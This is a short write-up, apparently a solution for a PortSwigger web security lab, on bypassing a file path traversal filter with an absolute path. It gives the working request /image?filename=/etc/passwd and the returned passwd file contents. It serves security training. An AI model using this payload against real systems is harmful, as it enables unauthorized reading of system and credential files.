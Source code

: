 # [Lab: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Scan

- burpsuite scanner detected
  - `File path traversal`
  - `/image`
  - The payload `/etc/passwd` was submitted in the filename parameter. The requested file was returned in the application's response.

## Solutions

```http
GET /image?filename=/etc/passwd HTTP/1.1

HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
...
```
